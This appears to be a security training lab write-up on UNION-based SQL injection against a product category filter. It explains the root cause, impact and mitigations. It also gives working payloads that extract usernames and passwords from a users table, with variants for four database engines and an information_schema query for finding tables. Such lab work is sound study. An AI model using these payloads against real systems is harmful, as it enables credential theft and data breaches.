


# Lab 09: SQL injection UNION attack, retrieving data from other tables

## Category
SQL Injection - UNION-based (Cross-Table Data Exfiltration)

## Vulnerability Summary
The website's product filtering feature contains a SQL injection vulnerability that allows attackers to retrieve data from other tables in the database. By using UNION SELECT with the correct column count and matching data types, attackers can combine results from arbitrary tables into the query output. This enables extraction of sensitive information such as user credentials, personal data, or any other table contents accessible to the database user.

## Steps to Reproduce
1. Navigate to the e-commerce website's product category filter.
2. Determine the number of columns using NULL injection (3 columns identified from previous labs).
3. Identify which column accepts text data (column 2 identified from Lab 08).
4. Find the database table structure by querying information_schema or guessing common table names.
5. Inject a UNION SELECT payload to retrieve data from the users table:
   - Payload: `'+UNION+SELECT+NULL,username||'~'||password,NULL+FROM+users--`
6. Observe the response - user credentials appear in the page output.
7. Verify successful exploitation by checking that usernames and passwords are displayed.




## Technical Root Cause
The vulnerability stems from improper handling of user input in SQL query construction:

- **Unsanitized Input:** User input from the category filter is directly concatenated into SQL queries.
- **Missing Parameterization:** The application does not use parameterized queries or prepared statements.
- **UNION Operator Exploitation:** The UNION operator allows combining results from multiple SELECT statements.
- **Cross-Table Access:** The database user has SELECT permissions on other tables (e.g., users table).
- **Visible Output:** Injected data appears in the HTML response, confirming successful data exfiltration.
- **No Input Validation:** The application accepts SQL operators and special characters without validation.

### Payload Used
```
'+UNION+SELECT+NULL,username||'~'||password,NULL+FROM+users--
```

URL-encoded payload in category filter:
```
/filter?category='+UNION+SELECT+NULL,username||'~'||password,NULL+FROM+users--
```

How it works:
- The original query likely looks like: `SELECT * FROM products WHERE category = 'input' AND released = 1`
- The injection transforms it to: `SELECT * FROM products WHERE category = '' UNION SELECT NULL, username||'~'||password, NULL FROM users--' AND released = 1`
- The `'` closes the category string value.
- The `UNION SELECT NULL, username||'~'||password, NULL FROM users` combines product data with user credentials.
- The `||` operator concatenates username and password with a `~` separator for easy parsing.
- The `FROM users` specifies the target table for data extraction.
- The `--` comments out the rest of the original query.

### Alternative Payloads for Different Databases

| Database | Payload |
|----------|---------|
| PostgreSQL | `'+UNION+SELECT+NULL,username||'~'||password,NULL+FROM+users--` |
| MySQL | `'+UNION+SELECT+NULL,CONCAT(username,'~',password),NULL+FROM+users--` |
| Oracle | `'+UNION+SELECT+NULL,username||'~'||password,NULL+FROM+users--` |
| SQL Server | `'+UNION+SELECT+NULL,username+'~'+password,NULL+FROM+users--` |

### Table Discovery Techniques
If the table name is unknown:
1. Query information_schema: `'+UNION+SELECT+NULL,table_name,NULL+FROM+information_schema.tables--`
2. Common table name guessing: users, accounts, members, admins, customers
3. Use Burp Suite's SQL injection payload list for automated discovery

## Impact
- **Data Breach:** Complete exposure of user credentials and personal information.
- **Account Compromise:** Attackers can use extracted credentials to access user accounts.
- **Credential Reuse:** If users reuse passwords across services, breach impact extends beyond this application.
- **Compliance Violation:** Violates data protection regulations (GDPR, PCI-DSS, HIPAA).
- **Legal Liability:** Organization may face lawsuits and regulatory fines.
- **Reputation Damage:** Public disclosure of data breach severely affects user trust.
- **Privilege Escalation:** If admin credentials are exposed, attackers gain elevated access.

## Mitigation
1. **Parameterized Queries:** Use prepared statements with parameterized queries for all database operations.
2. **Input Validation:** Implement strict input validation allowing only expected category values.
3. **Whitelist Approach:** Use a whitelist of valid category names instead of accepting raw input.
4. **Least Privilege:** Database accounts should have minimal permissions - restrict access to only necessary tables.
5. **Error Handling:** Implement generic error messages that don't reveal database structure information.
6. **ORM Usage:** Consider using Object-Relational Mapping (ORM) frameworks that handle SQL safely.
7. **Web Application Firewall:** Deploy WAF rules to detect and block UNION-based SQL injection attempts.
8. **Regular Security Testing:** Conduct periodic penetration testing and code reviews for SQL injection.
9. **Data Encryption:** Encrypt sensitive data at rest to limit impact of successful extraction.
10. **Access Monitoring:** Implement logging and alerting for suspicious database queries.

---
*Lab completed on: 2026-03-16*
